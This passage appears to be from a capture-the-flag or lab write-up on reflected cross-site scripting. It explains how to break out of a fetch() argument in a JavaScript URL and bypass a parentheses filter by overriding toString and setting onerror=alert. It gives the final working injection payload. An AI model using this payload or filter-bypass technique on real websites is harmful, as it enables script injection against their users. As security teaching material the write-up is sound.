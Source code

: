 Ctrl+u on above page
---

<img width="941" height="210" alt="image" src="https://github.com/user-attachments/assets/7de7db71-3df7-440a-91c9-3800bf12a068" />


### 2. Understand the JavaScript Context

We're injecting into the second argument of the `fetch()` function:

```javascript
fetch('/post?postId=1', {method: 'GET'})
```

To close the object and inject safely, we use:

```
&'}
```

This effectively closes the object and lets us write arbitrary JavaScript.

---

### 3. Avoid Using `()`

Calling `alert(1337)` directly is blocked due to `()` character filtering. To work around this, we use JavaScript coercion via overriding `toString()` and forcing it to execute.

---

### 4. Crafting the Exploit

We define a function `f` and override `toString` to trigger it when `window` is converted to a string:

```javascript
f = x => { throw/**/onerror=alert,1337 }
toString = f
'' + window
```

When `'' + window` is executed, it triggers our custom `toString` function, causing `throw` to raise an error and `onerror=alert` to fire.

---

### 5. Final Payload

Here is the working payload:

```
&'},f=x=>{throw/**/onerror=alert,1337},toString=f,''+window,{x:'
```

Explanation:

* `&'}`: Closes the object inside `fetch()`.
* `f=x=>{throw/**/onerror=alert,1337}`: Defines a function that triggers alert.
* `toString=f`: Overrides the native `toString()` method.
* `'' + window`: Forces coercion and execution.
* `{x:'`: Keeps the final JavaScript syntax valid.
